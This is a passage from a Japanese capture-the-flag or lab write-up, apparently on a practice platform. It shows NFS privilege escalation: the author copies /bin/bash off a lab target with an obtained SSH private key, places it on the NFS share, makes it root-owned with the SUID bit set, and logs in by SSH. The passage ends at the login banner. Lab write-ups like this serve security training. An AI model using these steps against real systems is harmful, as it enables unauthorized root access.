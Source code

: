 ```bash
┌──(kali㉿kali)-[/tmp/mount/cappucino]
└─$ cat /etc/os-release
PRETTY_NAME="Kali GNU/Linux Rolling"
NAME="Kali GNU/Linux"
VERSION_ID="2024.2"
VERSION="2024.2"
VERSION_CODENAME=kali-rolling
ID=kali
ID_LIKE=debian
HOME_URL="https://www.kali.org/"
SUPPORT_URL="https://forums.kali.org/"
BUG_REPORT_URL="https://bugs.kali.org/"
ANSI_COLOR="1;31"
```
結論、手段はともかく`Ubuntu 18.04.4 LTS`で実行できる`/bin/bash`が配送できればリモート側で実行することができるという  
  
#### 実際にやってみる
今回は秘密鍵をすでに取得しているので、`scp`からコピーしてくる手段をとる。  
```bash
┌──(kali㉿kali)-[/tmp/mount/cappucino]
└─$ scp -i ~/Desktop/NFS/id_rsa cappucino@10.10.144.88:/bin/bash ~/Desktop/NFS
bash  
```
これだけ。実際`ssh`が繋がる環境になかったらり、秘密鍵が手に入んなかったりしたら、上述の通り公式からダウンロードするという手段にならざるを得ないことも留意しておく。  
  
### 4-3.`/bin/bash`を共有ディレクトリに配送
配送といってものコピーするだけなのでそんな難しくはない。  
注意点としては、次に実施する`/bin/bashをrootオーナーに変える`と`/bin/bashにSUIDを設定する`の手順を配送前に行ってしまうと、配送先の環境に戻ってしまう（つまりローカルでの設定が全て消える）ので、とりあえずまず共有ディレクトリに配送する。
```bash
┌──(kali㉿kali)-[/tmp/mount/cappucino/.ssh]
└─$ cp ~/Desktop/NFS/bash /tmp/mount/cappucino 

```
  
### 4-4./bin/bashをrootオーナーに変える
`SUID`は`所有者の権限で実行`するというものなので、所有者をrootに変えてあげる必要がある。
```bash
┌──(kali㉿kali)-[/tmp/mount/cappucino]
└─$ sudo chown root bash 
```
  
### 4-5./bin/bashにSUIDを設定する
これが今回権限昇格する格の部分。しかしやること自体は簡単  
SUIDを設定しbashを実行するということは、所有者であるrootがbashを実行すること同じであるため、実行後のbashプロセスはrootで操作できるという理屈である。
```bash
┌──(kali㉿kali)-[/tmp/mount/cappucino]
└─$ sudo chmod +s bash
```

### 4-6.- `ssh`で侵入
### 4-7.`bash`を起動
ここは同時に実行する。  
まず純粋に`ssh`でリモートホストに侵入  
```bash
┌──(kali㉿kali)-[/tmp/mount/cappucino]
└─$ ssh -i ~/Desktop/NFS/id_rsa cappucino@10.10.144.88
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

```